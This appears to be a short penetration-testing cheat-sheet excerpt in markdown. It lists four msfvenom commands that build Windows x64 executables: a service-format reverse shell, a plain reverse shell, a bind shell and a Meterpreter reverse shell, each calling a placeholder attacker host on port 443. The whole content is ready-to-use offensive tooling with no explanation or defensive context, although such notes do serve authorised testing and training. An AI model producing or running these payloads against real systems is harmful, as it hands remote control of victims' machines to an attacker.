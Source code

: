 ### 64 Bit (x64)

#### service
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f exe-service -o service.exe
```

#### Reverse Shell
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f exe -o shell.exe
```

#### Bind Shell
```bash
msfvenom -p windows/x64/shell_bind_tcp LPORT=443 -f exe -o bind_shell.exe
```

#### Meterpreter
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$LHOST LPORT=443 -f exe -o shell.exe
```

